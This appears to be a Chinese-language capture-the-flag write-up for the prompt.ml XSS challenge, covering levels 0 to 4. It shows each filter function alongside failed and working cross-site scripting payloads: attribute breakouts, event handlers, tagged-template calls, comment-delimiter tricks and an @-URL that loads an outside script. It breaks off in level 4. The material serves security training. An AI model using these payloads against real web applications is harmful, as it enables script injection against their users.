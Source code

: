 # [Prompt.ml](https://prompt.ml) 实验 writeup

## 0
```js
function escape(input) {
    // warm up
    // script should be executed without user interaction
    return '<input type="text" value="' + input + '">';
}      
```

注入点在于input标签内的value属性，即`'<input type="text" value="' + input + '">'`

所以注入：`"><script>prompt(1)</script>`.

## 1
过滤函数为：
```js
function escape(input) {
    // tags stripping mechanism from ExtJS library
    // Ext.util.Format.stripTags
    var stripTagsRE = /<\/?[^>]+>/gi;
    input = input.replace(stripTagsRE, '');

    return '<article>' + input + '</article>';
}    
```
js中的正则表达式有两种形式：
- 使用一个正则表达式字面量，其由包含在斜杠之间的模式组成 ，例如：`var re = /ab+c/;`；
- 或者调用RegExp对象的构造函数,例如：`var re = new RegExp("ab+c");` 

上面的正则表达式，将 <...> 和</...> 不区分大消息全被过滤为空字符。显然需要可以使用html实体编码来绕过。

html实体编码：
- `&lt;` 或 `&#60;` 表示 < ；
- `&gt;`	`&#62;` 表示 >	大于号

尝试注入：`&#60;script&#62;prompt(1)&#60;/script&#62;` 不成。
尝试注入：`<img src="1" onerror="prompt(1)"`，成功。
尝试注入：`<body onload="prompt(1)"\\`，成功

## 2
```js
function escape(input) {
    //                      v-- frowny face
    input = input.replace(/[=(]/g, '');

    // ok seriously, disallows equal signs and open parenthesis
    return input;
}    
```

正则是替换了 = 和 ( 为空字符。

`&lpar;`表示（

尝试注入：
```
<script>prompt`1`</script>
&lt;script&gt;prompt&#40;1&#41;&lt;/script&gt;
<svg onload&#61;prompt`1`>
<body onload&#61;prompt`1`>
<img src=1 onerror&#61;prompt`1`>

```

不成功，但有趣的是注入下列语句能弹出alert：

```
<script>alert`1`</script>
```
尝试下列成功:
```
<svg><script>prompt&#40;1)</script>
<script>eval.call`${'prompt\x281)'}`</script>
```

## 3
```js
function escape(input) {
    // filter potential comment end delimiters
    input = input.replace(/->/g, '_');

    // comment the input to avoid script execution
    return '<!-- ' + input + ' -->';
}
```

过滤函数将 - ， >转为_ ,并将输入内容全部置入注释中。

尝试失败的payload：
```
--&gt;<svg><script>prompt(1)</script><!--
\x2d\x2d\x3E<body onload="prompt(1)"><!--1
-&#x2D;><script>eval.call`${'prompt\x281)'}`</script><!--1
&#x2d;&#x2d;&#x3E;<script>eval("prompt(1)");</script><!--1
```

尝试下列成功：
```
--!><script>eval("prompt(1)");</script><!--1
1--!><img src=1 onerror="prompt(1)"><!--12
--!><svg><script>prompt(1);</script>
```

## 4
```js
function escape(input) {
    // make sure the script belongs to own site
    // sample script: http://prompt.ml/js/test.js
    if (/^(?:https?:)?\/\/prompt\.ml\//i.test(decodeURIComponent(input))) {
        var script = document.createElement('script');
        script.src = input;
        return script.outerHTML;
    } else {
        return 'Invalid resource.';
    }
}       
```

decodeURIComponent() 函数可对 encodeURIComponent() 函数编码的 URI 进行解码。
  

尝试下列payload 失败：
```
http://prompt.ml/js/test.js%22><script>prompt(1);</script>%22
```

http%3A%2F%2Fprompt.ml%2Fjs%2Ftest.js%22%3E%3Cscript%3Eprompt(1)%3C%2Fscrip%3E


http://prompt.ml%2f@github.com/hhhparty/security/blob/master/courses/webtestguide/labs/prompt.js